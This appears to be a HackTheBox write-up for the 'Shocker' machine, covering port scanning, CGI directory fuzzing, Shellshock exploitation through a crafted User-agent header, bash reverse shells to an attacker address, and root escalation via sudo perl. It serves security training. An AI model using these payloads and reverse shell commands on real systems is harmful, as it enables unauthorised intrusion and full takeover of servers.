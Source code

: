 # Shocker [HTB](https://app.hackthebox.com/machines/108)

![shocker-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shocker-01.png)

## Recon

Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/hosts-02.png)


Now we can use `nmap` to scan the target:

```bash
nmap -sC -sV -A -p- shocker.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/nmap-res-03.png)

We have the following:

+ An Apache V2.4.18 Server on port 80.
+ An SSH server on port 2222.


Lets take a look at the web server and see what we can find. 


## Apache port 80

Lets open our browser and navigate towards `http://shocker.htb`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/site-04.png)

Not much to see or do here, lets try directory busting:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/common.txt:FUZZ  -u http://shocker.htb/FUZZ
```

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/ffuf-05.png)


We can see we have a few interesting results. Primarly, the scan confirmed that CGI is enabled on the 
target. We could potentially exploit this. 

Certain versions of Bash incorrectly execute commands that follow function definitions stored inside environment variables - this can be exploited by an attacker in systems that store user input in environment variables.

On such scenario is with cgi scripts. Sometimes cgi scripts store data received from HTTP headers inside 
enviorenment varaibles in order to generate dynamic content. Since we can control the data passed in the 
HTTP headers, we can leverage this to gain RCE.

To pull this off, we need to find a valid cgi script we can execute via the browser. From the `ffuf` scan
we can see that we dont have permissions to view the contents of the `cgi-bin` directory, so we have to 
enumerate some more. 

I use `ffuf` again, this time adding the `-e` switch to scan for possible file extensions:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://shocker.htb/cgi-bin/FUZZ -e .cgi,.php,.sh,.py,.pl
```

![script-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/script-06.png)


We got something. Lets check if its vulnerable:

```bash
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; echo; echo pwned"
```

![vuln-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/vuln-07.png)

It is. Now we can use a one liner reverse shell to get access to the system. 

First set up the listener: 

```
rlwrap nc -lnvp 443
```

Exploit with:

```
curl http://shocker.htb/cgi-bin/user.sh -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.117/443 0>&1"
```

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/shell-08.png)


## Privilege Escalation

Lets look for easy wins, like our `sudo` permissions:

```bash
sudo -l
```

![sudo-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/sudo-09.png)


We can see we are allowed to run Perl. If we can run a scripting language as root, escalation is fairly trivial:

```perl
sudo perl -e 'exec "/bin/sh";'
```

![root-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/root-10.png)


From here we can setup another `nc` listener and upgrade this shell with:

```bash
bash -i >& /dev/tcp/<kali-ip>/9001 0>&1
```

![full-root-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Shocker/img/full-root-11.png)

